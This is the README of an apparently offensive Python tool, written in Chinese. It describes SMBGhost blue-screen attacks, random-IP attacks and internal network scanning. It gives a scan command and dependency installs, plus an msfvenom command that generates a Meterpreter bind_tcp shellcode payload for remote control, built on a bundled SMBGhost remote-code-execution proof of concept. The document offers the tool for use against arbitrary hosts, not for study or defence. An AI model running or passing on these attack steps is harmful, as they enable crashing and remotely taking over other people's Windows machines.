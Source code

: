 本脚本有蓝屏攻击, 随机IP攻击功能, 内网扫描
SMBGhost_RCE_PoC文件夹的内容并非是我写的
扫描内网的指令
./main.py local

本模块需要netaddr模块
使用指令安装
python3 -m pip install netaddr 或者 pip install netaddr

smbprotocol模块无需手动下载

生成远程控制载荷
	msfvenom -p windows/x64/meterpreter/bind_tcp lport=4444 -f python -o shellcode.txt

本脚本的远程控制代码在网上参考
